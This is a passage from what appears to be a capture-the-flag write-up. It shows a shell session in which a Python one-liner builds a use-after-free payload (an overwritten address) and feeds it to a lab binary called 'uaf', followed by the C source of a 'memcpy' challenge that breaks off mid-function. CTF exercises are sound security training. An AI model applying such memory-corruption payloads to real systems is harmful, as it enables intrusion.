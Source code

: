 ```shell
$ python -c 'print"\x68\x15\x40"+"\x00"*5' > /tmp/payload
$ ./uaf 24 /tmp/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
```

## memcpy

```c
// compiled with : gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
    int i;
    for (i=0; i<len; i++) {
        dest[i] = src[i];
    }
    return dest;
}

char* fast_memcpy(char* dest, const char* src, size_t len){
    size_t i;
    // 64-byte block fast copy
    if(len>= 64){
        i = len / 64;
        len &= (64-1);
        while(i--> 0){
            __asm__ __volatile__ (
            "movdqa (%0), %%xmm0\n"
            "movdqa 16(%0), %%xmm1\n"
            "movdqa 32(%0), %%xmm2\n"
            "movdqa 48(%0), %%xmm3\n"
            "movntps %%xmm0, (%1)\n"
            "movntps %%xmm1, 16(%1)\n"
            "movntps %%xmm2, 32(%1)\n"
            "movntps %%xmm3, 48(%1)\n"
            ::"r"(src),"r"(dest):"memory");
```